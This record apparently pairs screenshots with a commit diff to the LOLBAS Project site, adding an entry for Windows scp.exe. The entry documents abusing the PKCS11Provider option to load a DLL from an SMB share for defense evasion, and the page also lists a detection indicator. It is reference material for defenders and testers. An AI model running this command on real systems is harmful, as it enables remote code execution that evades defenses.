

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Scp.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1015 px from its top, so only the background shows below that.

Commit message:
Applying update LOLBAS-Project/LOLBAS@2f342eca0605b2aa9ef42ead871d271cb5c82ea2

```diff
--- a/_lolbas/Binaries/Scp.md
+++ b/_lolbas/Binaries/Scp.md
@@ -22,15 +22,28 @@ Commands:
     OperatingSystem: Windows 10, Windows 11
     Tags:
       - Execute: CMD
+  - Command: scp -o PKCS11Provider="{PATH_SMB:.dll}" . win@github.com:.
+    Description: Loads a DLL from an absolute path or SMB path into child process `ssh.exe` by abusing the `PKCS11Provider` option. The payload executes upon DLL load (`DllMain`) and requires exporting `C_GetFunctionList` to prevent premature termination by `scp.exe`.
+    Usecase: Performs indirect execution of a specified DLL from a remote share, can be used for defense evasion.
+    Category: Execute
+    Privileges: User
+    MitreID: T1218
+    OperatingSystem: Windows 10, Windows 11
+    Tags:
+      - Execute: DLL
+      - Execute: Remote
 Full_Path:
   - Path: C:\Windows\System32\OpenSSH\scp.exe
 Detection:
   - IOC: "`scp.exe` executions referencing `ProxyCommand`."
 Resources:
   - Link: https://gtfobins.org/gtfobins/scp/
+  - Link: https://gist.github.com/screetsec/97d90750bfb058eb0b49c5374cdc0ac9
 Acknowledgement:
   - Person: BinFault
     Handle: '@binfault'
   - Person: 'Nir Chako (Pentera)'
     Handle: '@C_h4ck_0'
+  - Person: Edo Maland
+    Handle: '@screetsec'
 ---
```
